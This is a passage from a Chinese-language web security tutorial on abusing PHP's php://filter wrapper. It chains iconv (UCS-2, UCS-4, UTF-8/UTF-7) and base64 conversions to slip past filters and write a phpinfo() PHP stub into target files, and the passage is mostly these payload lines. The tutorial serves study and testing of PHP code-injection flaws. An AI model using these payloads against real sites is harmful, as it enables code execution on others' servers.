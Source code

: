 > 对目标字符串进行2位一反转

**payload：**

```
php://filter//convert.iconv.UCS-2LE.UCS-2BE|?&lt;hp phpipfn(o;)&gt;?/resource=2.php
```

[![](https://p1.ssl.qhimg.com/t019c2bfa24ba2c3683.png)](https://p1.ssl.qhimg.com/t019c2bfa24ba2c3683.png)

**<a class="reference-link" name="UCS-4"></a>UCS-4**

> 对目标字符串进行4位一反转，一定要拼凑够4的倍数

```
php://filter/convert.iconv.UCS-4LE.UCS-4BE|?&lt;aa phpiphp(ofn&gt;?;)/resource=3.php
```

[![](https://p3.ssl.qhimg.com/t01d0db579efefdd09d.png)](https://p3.ssl.qhimg.com/t01d0db579efefdd09d.png)

**<a class="reference-link" name="0x04:%E7%BB%84%E5%90%88%E6%8B%B3"></a>0x04:组合拳**

**<a class="reference-link" name="UTF-8/UTF-7"></a>UTF-8/UTF-7**

还记得上面的base64编码之所以这种

```
php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=Sn0w.php
```

payload无法执行是因为受到了等号的影响，但是通过测试发现可以利用UTF-8和UTF-7间的转换了来绕过等号

[![](https://p4.ssl.qhimg.com/t018668ff1e7c0fab90.png)](https://p4.ssl.qhimg.com/t018668ff1e7c0fab90.png)

再进解码发现等号并没有转回来

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d8ac64eaa5f76c8e.png)

所以可以利用这种特性来嵌套过滤器，从而绕过等号

```
php://filter/write=PD9waHAgcGhwaW5mbygpOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=1.php
或
php://filter/write=convert.iconv.utf-8.utf-7|convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=Sn0w.php
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01df4953c97ddc3387.png)

经过测试发现，`write=`一定要写进去，如果不写PHP不会去自动识别，还有就是内容要写在前面，如果写在后面内容写会写入，但是解析不了，如：

```
php://filter/write=convert.iconv.utf-8.utf-7|convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=Sn0w.php
```
